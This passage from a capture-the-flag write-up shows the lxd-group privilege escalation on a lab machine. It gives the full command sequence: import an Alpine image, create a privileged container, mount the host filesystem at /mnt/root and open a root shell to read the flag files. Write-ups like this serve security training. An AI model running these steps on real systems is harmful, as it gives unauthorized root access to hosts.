 We are in the **lxd** group. This article will be helpful:

[Lxd Privilege EscalationIn this post we are going to describes how an account on the system that is a member of the lxd group is able to…www.hackingarticles.in](https://www.hackingarticles.in/lxd-privilege-escalation/?source=post\_page-----67d56026282c--------------------------------)

First, clone this [repo](https://github.com/saghul/lxd-alpine-builder) and run **build-alpine**. Then transfer the tar.gz file to the victim machine. Then run the following commands:

```
lxc image import ./alpine-v3.14-x86_64-20210809_0302.tar.gz
```

**F.** I forgot to add the alias. Nvm, run this command:

```
lxc image list
```

Here, we see its fingerprint. Delete this image using:

```
lxc image delete fdf378551f70
```

Now, let’s try again:

```
lxc image import ./alpine-v3.14-x86_64-20210809_0302.tar.gz --alias myimagelxc init myimage ignite -c security.privileged=true
```

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*8RfwEtfGdik77fc890fg8w.png" alt="" height="119" width="700"><figcaption></figcaption></figure>

I got this error. Run:

```
lxd init
```

Leave everything as default. Then run:

```
lxc init myimage ignite -c security.privileged=truelxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=truelxc start ignitelxc exec ignite /bin/sh
```

<figure><img src="https://miro.medium.com/v2/resize:fit:478/1*gm6TplNvM6HWwjrvEjnI1Q.png" alt="" height="142" width="478"><figcaption></figcaption></figure>

And we are root!\
Get **user.txt** from **/mnt/root/home/ash/user.txt** and **root.txt** from **/mnt/root/root/root.txt**.

**We have successfully pwned the box!**
